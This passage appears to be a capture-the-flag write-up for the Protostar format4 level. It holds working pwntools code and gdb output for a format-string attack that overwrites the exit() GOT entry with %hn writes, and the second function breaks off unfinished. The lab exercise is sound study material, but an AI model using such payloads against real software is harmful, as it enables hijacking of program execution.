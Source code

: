 
Now let's make a payload: 



```python



#value  we want to write : address of  hello 0x080484b4 at 0x08049724 address of EXIT in the GOT 



'''
METHOD 1 WRITE 2 BYTES AT ONCE 


0x08049726   0x0804   0x10804 - 0x84b4= 33616x
0x08049724   0x84b4   0x84b4 - 8 = 33964

'''
def write_at_offset4_with_hn():
    address_of_exit_GOT= p32(0x08049724)
    s = ssh(host="192.168.160.128" , user="user", password="user")
    format4 = s.run(["/opt/protostar/bin/format4"]) 
    payload =  p32(0x08049724)+ p32(0x08049726)+  b'%33964x' + b"%4$hn" +  b'%33616x' + b'%5$hn'
    format4.sendline(payload)
    print(format4.recvuntil('win'))
    format4.close()






'''
METHOD 2  WRITE ONLY THE 2 LOWEST BYTES

(gdb) x/10i 0x080483ec
0x80483ec <exit@plt>:	jmp    DWORD PTR ds:0x8049724
0x80483f2 <exit@plt+6>:	push   0x30
0x80483f7 <exit@plt+11>:	jmp    0x804837c
0x80483fc:	add    BYTE PTR [eax],al
0x80483fe:	add    BYTE PTR [eax],al
0x8048400 <_start>:	xor    ebp,ebp
0x8048402 <_start+2>:	pop    esi
0x8048403 <_start+3>:	mov    ecx,esp
0x8048405 <_start+5>:	and    esp,0xfffffff0
0x8048408 <_start+8>:	push   eax
(gdb) x/x 0x8049724
0x8049724 <_GLOBAL_OFFSET_TABLE_+36>:	0x080483f2

 
exit in GOT points at 0x080483f2 (which is in back in the plt  since exit() is not yet resolve )
One thing we should notice is the heigher bytes are already the bytes that we want : 0x0804
We just need to replace the lowest 2 bytes with 0x84b4

payload : address in GOT (4bytes ) +  (0x84b4 - 4)  + "%4$hn"

'''


def write_at_offset4_with_only_one_hn():
    address_of_exit_GOT= p32(0x08049724)
    s = ssh(host="192.168.160.128" , user="user", password="user")
    format4 = s.run(["/opt/protostar/bin/format4"]) 
```